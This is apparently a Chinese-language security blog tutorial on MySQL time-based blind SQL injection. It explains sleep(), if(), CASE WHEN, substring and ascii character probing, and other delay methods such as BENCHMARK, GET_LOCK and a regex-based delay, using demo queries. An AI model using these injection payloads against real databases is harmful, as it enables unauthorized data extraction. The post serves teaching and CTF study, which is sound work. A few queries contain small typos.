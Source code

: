 ```yaml
---
title: 基于时间的盲注
date: 2021-05-15 15:00:00
tags: 
      - 网络安全
      - Web 安全
categories: 
- [网络安全, CTF]
- [网络安全, Web 安全]
---
```


时间盲注详解

<!--more-->

## 1. 基础知识
时间盲注指通过页面执行的时间来判断数据内容的注入方式，通常用于数据（包含逻辑型）不能返回到页面中的场景，无法利用页面回显判断数据内容，只能通过执行的时间来获取数据。

在执行语句的过程中，由于 sleep(duration) 函数的存在，保证是注入导致的延时，而不是业务正常处理导致的延时。

## 2. 原理演示
### 2.1 sleep 函数
- sleep(duration)
  - 睡眠时间为 duration 参数给定的秒数，然后返回0；若函数被中断，返回1。
  
```shell
mysql> select * from user;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
|  2 | admin1   | aaaa     |
|  3 | admin2   | aaaa     |
|  4 | admin3   | aaaa     |
+----+----------+----------+
4 row in set (0.00 sec)

mysql> select sleep(3);
+----------------------+
| sleep(3)             |
+----------------------+
| 0                    |
+----------------------+
1 row in set (3.00 sec)

mysql> select * from user where id = 1 and sleep(3);
Empty set (3.01 sec)

mysql> select * from user where id = 5 and sleep(3);
Empty set (0.00 sec)

```

sleep(3) 执行完成后返回 0，所以 `select * from user where id = 1 and sleep(3)`查询 0 条数据

and 的逻辑是如果 and 左侧表达式为假，则直接返回假，不再直接右侧表达式。所以当 id=5 查不到数据时，直接就会返回结果，这样就可以用布尔注入逻辑，根据执行的时长，来测试是否查到数据。

如果 and 逻辑换成 or，又会有变化。

```shell
mysql> select * from user where id = 1 or sleep(3);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)
```
or 逻辑是左侧若为真则不判断右侧表达式，所以 id=1 这条执行了 0.01 sec，接下来 id=2,3,4 这几条数据都会执行 sleep(3)，总共是 9.01sec。（可能不是所有版本都是这样的逻辑）

### 2.2 配合 if  条件触发 
- if(expr1, expr2, expr3)
  - 如果 expr1 是 True，则返回 expr2，否则返回 expr3
  - 返回值是数字值或字符串值
```shell
mysql> select * from user where id = 5 or if(username = 'admin', 1, 0);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)

mysql> select * from user where id = 1 and if(database()=' ', sleep(4), null);
```

### 2.3 截取函数
配合截取函数，能够判断猜测的某一位数据是否准确

单个字母爆破

```shell
mysql> select * from user where username='a' or if(substr((select username from user where id = 1), 1, 1) = 'a' , sleep(3), 0)  
```
- substring
  - substring(str, pos)
  - substring(str FROM pos)
  - substring(str, pos, len)
  - substring(str FROM pos FOR len)
- substr(str, start, length)
- mid(str, start, length)
  - str，必需
  - start，必需
  - length，可选
- substring_index(str, delim, count) 
  - str：被截取字符串
  - delim：关键字
  - count：关键字出现的次数 
- left(str, length)，从左开始截取字符串
- right(str, length)，从右开始截取字符串

实际上，使用正则表达式也能达到类似的效果,“^”表示从头开始匹配
```shell
mysql> select * from user where password rlike = '^1';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)

mysql> select * from user where password regexp '^12';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)
```

我们注意到，进行匹配时传入单个字符都需要引号，如果想不传入引号达到一样的效果，可以使用 ascii() 函数
```sql
select * from table where id = 1 and (if(substr(database(),1,1)=' ',sleep(4),null))

select * from table where id = 1 and (if(ascii(substr(database(),1,1))=100,sleep(4),null))
```

### 2.4 配合 select case when 条件触发
SQL CASE 表达式是一种通用的条件表达式，类似于其他语言中的  if...else... 语句
> CASE WHEN condition THEN result
> [WHEN ...]
> [ELSE result]
> END

先来一个使用举例：
```shell
mysql> select case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  aaa                                                    |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (0.00sec)
```
可以与 sleep 或者其他形式结合
```sql
mysql> select case when username = 'admin' THEN (sleep(3)) ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  0                                                      |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (3.01sec)
```

### 2.5 除 sleep 之外的延时
- BENCHMARK(count, expr)
  - 重复 count 次执行表达式 expr。
  - 可以被用于计算 MySQL 处理表达式的速度
  - 结果值通常为0
- 笛卡尔积
  - SELECT count(*) FROM information_schema.columns A, information_schema.colums B, information_schema.colums C;
  - 通过复杂的运算达到延时
- GET_LOCK(str, timeout)
  - 使用字符串 str 给定的名字得到一个锁，超时为 timeout 秒
  - 局限：当前会话不会生效，只有新会话开启，并且保持长连接（ mysql_pconnect函数来连接数据库），才能生效
session 1
```shell
mysql> select get_lock('karma',1);
+---------------------+
| get_lock('karma',1) |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)
```
session 2
```shell
mysql> select get_lock('karma',10);
+----------------------+
| get_lock('karma',10) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (10.00 sec)
```

- RLIKE
  - 通过 rpad 或 repeat 构造长字符串，加以计算量打的 pattern，通过 repeat 的参数可以控制延时长短
```shell
mysql> select concat (rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'

*****
1 row in set (0.51 sec)
```

————————————————
- [浅谈SQL盲注测试方法解析与技巧](https://www.freebuf.com/articles/web/175049.html)
- [MySQL中RLIKE运算符的使用详解](https://www.php.cn/mysql-tutorials-417450.html)
- [Mysql时间盲注手工注入详解](https://www.jianshu.com/p/0d607589e3ad)